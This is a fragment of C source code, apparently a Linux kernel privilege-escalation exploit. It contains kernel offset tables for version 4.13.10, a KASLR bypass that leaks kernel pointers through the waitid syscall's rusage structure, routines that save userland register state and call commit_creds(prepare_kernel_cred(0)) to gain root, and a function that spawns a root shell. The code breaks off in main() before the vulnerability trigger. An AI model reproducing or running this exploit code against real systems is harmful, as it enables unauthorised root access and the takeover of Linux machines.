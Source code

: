 ```c
    0xa8390,
    0xa8000,
    0x106042c,
  },
  { /* Linux Kernel 4.13.10 info */ /* not triggered */
    0xa8390,
    0xa8000,
    0x10603ac,
  },
};

unsigned long user_cs = 0x0;
unsigned long user_ss = 0x0;
unsigned long user_rflags = 0x0;

void backup_stat() {  
    asm(
        "movq %%cs, %0\n"
        "movq %%ss, %1\n"
        "pushfq\n"
        "popq %2\n"
        : "=r" (user_cs), "=r" (user_ss), "=r" (user_rflags) : : "memory"
    );
}

void get_shell() { if (getuid() == 0) system("/bin/sh"); }
void get_root() { if (commit_creds && prepare_kernel_cred) commit_creds(prepare_kernel_cred(0)); }

unsigned long kaslr_bypass() {
  pid_t pid = fork();
  if (pid > 0) {
    struct rusage ru = {};
    syscall(__NR_waitid, P_PID, pid, NULL, WEXITED | WNOHANG | __WNOTHREAD, &ru);

    unsigned long *p = (unsigned long *)&ru;
    for (; p < (unsigned long *)((char *)&ru + sizeof(ru)); ++p)
      if (*p > 0xffffffff00000000 && *p < 0xffffffffff000000)
        return (*p & ~0xfffff) - 0x100000;
  }
  return 0;
}

int main(int argc, char *argv[]) {
  if (!(argc == 3 || argc == 2)) {
    printf("Usage : %s [<kernel_base_addr>] <kernel_version>\n", argv[0]);
    return EXIT_SUCCESS;
  }

  if (argc == 3) kernel_base = (unsigned long)strtoul(argv[1], (char **)0, 0);
  else if (argc == 2) kernel_base = kaslr_bypass();

  if (kernel_base == 0) {
    printf("\e[31m[-] Failed to leak kernel_base:(\n");
    return EXIT_FAILURE;
  }
  
  backup_stat(); /* backup userland env */
  
  struct utsname buf;
  if (!uname(&buf)) printf("\e[36m[*] Kernel Version \e[34m: %s\n", buf.release);
  printf("\e[35m[+] Kernel Base           \e[34m: %#llx\n", (unsigned long long)kernel_base);

  int k_ver = (int)strtoul(argv[argc - 1], (char **)0, 0);
```